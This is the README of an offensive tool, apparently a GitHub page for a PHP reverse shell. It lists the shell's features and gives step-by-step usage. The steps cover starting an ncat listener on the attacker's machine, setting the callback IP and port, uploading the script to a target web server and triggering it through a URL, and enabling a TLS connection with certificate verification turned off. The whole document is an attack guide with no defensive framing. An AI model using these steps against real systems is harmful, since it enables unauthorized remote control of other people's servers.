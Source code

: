 PHP Reverse Shell — NZRXHX

# Features

- Fully functional reverse shell over TCP
- Compatible with Linux and Windows (auto-detects shell)
- Minimal dependencies — pure PHP
- Forks to background (daemonizes) when possible
- Stable stream handling (fixed `feof()` false positives)
- Keep-alive mechanism to maintain long-lived connections

---

## Usage

# 1. Start Listener

On your **attacker machine**, start a listener:
```bash
ncat -lvnp 443
```
You may replace 443 with another port.

# 2. Edit Script

Modify the following values in the PHP script:
```php
$remote_host = 'YOUR_IP';
$remote_port = 443;
$allowed_hosts = ['YOUR_IP'];
```

# 3. Upload and Execute

Upload the PHP script to the target system and trigger it via a web request:

http://target.com/shell.php

Optional: TLS (SSL) Support

# If using a TLS listener:

```bash
ncat --ssl -lvnp 443
```
Then change this line in the script:
```php
$socket = stream_socket_client("tcp://...");
```
to:
```php
$context = stream_context_create([
  'ssl' => ['verify_peer' => false, 'verify_peer_name' => false]
]);
$socket = stream_socket_client("ssl://$remote_host:$remote_port", $errno, $errstr, $timeout, STREAM_CLIENT_CONNECT, $context);
```
